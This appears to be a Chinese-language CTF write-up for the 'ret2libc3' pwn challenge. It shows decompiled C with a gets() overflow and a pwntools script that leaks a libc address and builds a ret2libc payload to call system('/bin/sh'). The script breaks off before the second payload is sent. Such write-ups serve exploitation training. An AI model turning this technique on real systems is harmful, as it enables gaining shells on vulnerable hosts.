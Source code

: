 

## IDA Analysis

- main函数如下，存在高危函数gets，可供栈溢出

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s); // 溢出点
  return 0;
}
```



## Exploit

- 脚本逻辑详细版见注释，以下为exploit思路：
  1. 控制程序执行puts，输出`__libc_start_main`的got表地址，并返回到main
  2. 根据`__libc_start_main`的got表地址判断`libc`版本，以此计算`system, str_bin_sh`的实际地址
  3. 第二次执行main，控制程序`ret`到`system`，参数`str_bin_sh`的实际地址。即执行`system("/bin/sh")` getshell
- 函数执行过程：`__libc_start_main`=>`main`=>`gets(payload1)`=>`puts(libc_start_main_got)`=>`main`=>`system("/bin/sh")`

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher # 用于判断libc版本
context.log_level = "DEBUG"
sh = process("./ret2libc3")

ret2libc3 = ELF("./ret2libc3")
# pwnlib.elf.elf.ELF.plt: dotdict of name to address for all Procedure Linkate Table (PLT) entries
puts_plt = ret2libc3.plt["puts"] # puts 函数的 plt 表地址
# pwnlib.elf.elf.ELF.got: dotdict of name to address for all Global Offset Table (GOT) entries
libc_start_main_got = ret2libc3.got["__libc_start_main"] # __libc_start_main 函数的 got 表地址 # 0x804a024
main = ret2libc3.symbols["main"] # main函数的地址

print("leak libc_start_main_got addr and ret to main", str(hex(puts_plt)), str(hex(main)), str(hex(libc_start_main_got)))
# puts_plt, main, libc_start_main_got: 0x8048460 0x8048618 0x804a024
payload = flat(['A' * (108+4), puts_plt, main, libc_start_main_got]) # main函数RA与字符串s之间的偏移量为108+4，分析方法其他ROP相同
# 覆盖main函数返回地址为puts_plt，令puts_plt的RA为main，参数为libc_start_main_got # puts会输出 __libc_start_main 的got表地址
print("payload: ", payload.hex())
sh.sendlineafter("Can you find it !?", payload) # 收到 "Can you find it !?" 后发送payload

libc_start_main_addr = u32(sh.recv()[0:4]) # 接收前面payload输出的 libc_start_main_got
print("got libc_start_main_addr:", str(hex(libc_start_main_addr))) # got libc_start_main_addr: 0xf7de8d40
libc = LibcSearcher("__libc_start_main", libc_start_main_addr) # 用LibcSearcher库查找libc版本(可能不止一个)
libcbase = libc_start_main_addr - libc.dump("__libc_start_main") # 计算加载的libc的基址
print("loaded libc base addr:", str(hex(libcbase))) # loaded libc base addr: 0xf7dca000
system_addr = libcbase + libc.dump("system") # 计算 system 函数实际所在的地址
binsh_addr = libcbase + libc.dump("str_bin_sh") # 计算 str_bin_sh 字符串实际所在的地址
# 第二个payload，用于getshell
payload = flat(['A' * (100+4), system_addr, 0xdeadbeef, binsh_addr]) # 注意这里RA与字符串s之间的偏移量从前面的112变为104
```